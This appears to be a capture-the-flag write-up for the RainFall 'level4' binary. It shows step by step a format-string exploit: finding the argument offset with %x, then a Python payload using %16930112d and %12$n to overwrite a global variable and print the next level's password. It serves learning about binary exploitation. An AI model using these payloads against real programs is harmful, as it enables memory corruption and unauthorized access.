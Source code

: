 level4
======

*	We spawn with a [level4](source/level4) executable
	```console
	level4@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level5 users 5252 Mar  6  2016 level4
	level4@RainFall:~$ ./level4
	█
	level4@RainFall:~$ ./level4 
	dsadasd
	dsadasd
	```
*	Let's take a look at the code
	```console
	root@DESKTOP-69N2SL4:~# scp -P 4242 level4@192.168.29.4:~/level4 .
	root@DESKTOP-69N2SL4:~# ./getFunctions.sh 
	Executable files in the current directory:
	[1] ./level4
	Enter the number of the executable file you want to analyze: 1
	```
*	It seems there is 3 functions -> `main`, `p` and `n`. Even though the code isn't complex, for understanding purposes, I'll use ghidra to convert it to `C` in [level4.c](source/level4.c)
*	To summarize :
	-	`main` calls function `n` then return 
	-	`n` function uses `fgets` and calls `printf` with `p` on what you gave
	-	if the global variable `m` is equal to `0x1025544`, the function `cat` the password for the next level
*	I tried to do like [level3](../level3/) and found our argument at position 12
	```console
	level4@RainFall:~$ ./level4 
	aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x
	aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825
	```
*	Now let's retrieve the little endian address of `m (0x8049810)` -> `\x10\x98\x04\x08`
*	Let's try to print it with the program
	```console
	level4@RainFall:~$ python -c 'print "\x44\x55\x25\x10" + " %x "*12' > /tmp/test
	level4@RainFall:~$ cat /tmp/test | ./level4 
	DU% b7ff26b0  bffff794  b7fd0ff4  0  0  bffff758  804848d  bffff550  200  b7fd1ac0  b7ff37d0  10255544 
	```
	It seems to be working
*	The issue here is that padding of `0x1025544(int 16930116)`is too long so we need one more thing to specify the right field, we will be using the `%d` modifier like in the last level -> `%16930116d`. Let's not forget to remove `4` because of the base address size so it will be `%16930112d`
*	Let's try this and don't forget to change the `12th` position with `%n`:
	```console
	level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/test
	level4@RainFall:~$ cat /tmp/exploit | ./level4
	...
	0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
	```